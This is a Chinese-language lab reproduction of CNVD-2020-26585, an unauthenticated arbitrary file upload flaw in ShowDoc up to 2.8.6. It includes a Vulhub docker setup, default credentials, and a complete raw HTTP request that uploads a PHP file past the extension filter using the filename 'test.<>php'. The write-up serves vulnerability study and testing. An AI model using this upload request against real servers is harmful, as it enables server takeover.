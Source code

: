 # ShowDoc 前台任意文件上传 CNVD-2020-26585

## 漏洞描述

Showdoc 是一个开源的在线共享文档工具。

Showdoc <= 2.8.6 存在 uploadImg 文件上传漏洞，该漏洞源于未正确使用 upload 方法至文件后缀限制失效，攻击者可在未授权的情况下上传任意文件，进而获取服务器权限等。

参考链接：

- https://github.com/star7th/showdoc/pull/1059
- https://github.com/star7th/showdoc/commit/fb77dd4db88dc23f5e570fc95919ee882aca520a
- https://github.com/star7th/showdoc/commit/e1cd02a3f98bb227c0599e7fa6b803ab1097597f

## 漏洞影响

```
Showdoc <= 2.8.6
```

## 网络测绘

```
app="ShowDoc"
```

## 环境搭建

Vulhub 执行如下命令启动一个 ShowDoc 2.8.2 服务器：

```
docker compose up -d
```

服务启动后，安装，初始账号密码 `showdoc/123456`。访问 `http://your-ip:8080` 即可查看到 ShowDoc 的主页。

![](images/ShowDoc%20前台任意文件上传%20CNVD-2020-26585/image-20240603133023021.png)

## 漏洞复现

发送如下请求上传一个 PHP 文件：

```
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBCbwAmmXaS7UssMW
Content-Length: 216


------WebKitFormBoundaryBCbwAmmXaS7UssMW
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?=phpinfo();?>
------WebKitFormBoundaryBCbwAmmXaS7UssMW--
```

PHP 文件路径将返回在数据包中：

![](images/ShowDoc%20前台任意文件上传%20CNVD-2020-26585/image-20240603133735578.png)

访问即可查看到 `phpinfo()` 执行结果：

```
http://your-ip:8080/Public/Uploads/2024-06-03/665d568d2cdd9.php
```

![](images/ShowDoc%20前台任意文件上传%20CNVD-2020-26585/image-20240603133858048.png)

